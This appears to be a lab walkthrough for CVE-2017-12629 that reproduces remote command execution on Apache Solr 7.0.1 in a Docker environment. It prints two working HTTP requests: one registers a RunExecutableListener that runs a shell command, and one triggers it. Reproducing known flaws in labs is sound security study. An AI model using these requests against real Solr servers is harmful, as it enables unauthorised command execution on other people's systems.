

Apache Solr Remote Command Execution (CVE-2017-12629)¶
Apache Solr is an open-source search server. It is written in Java and built upon Apache Lucene. Before version 7.1.0, two vulnerabilities were discovered: XML External Entity (XXE) and Remote Command Execution (RCE), both numbered as CVE-2017-12629. These two vulnerabilities can be chained together to form an attack chain.
This environment demonstrates the RCE vulnerability.
References:
Environment Setup¶
Execute the following command to start an Apache Solr 7.0.1 server:
docker compose up -d
After the server starts, you can access the Apache Solr management interface at http://your-ip:8983/. No authentication is required.
Vulnerability Reproduction¶
First, create a listener by setting the exe value to the command you want to execute and the args value to the command parameters:
POST /solr/demo/config HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 158
{"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/success"]}}

Then, trigger the listener by performing an update operation:
POST /solr/demo/update HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15
[{"id":"test"}]

Execute docker compose exec solr bash to enter the container, and you can see that /tmp/success has been successfully created:
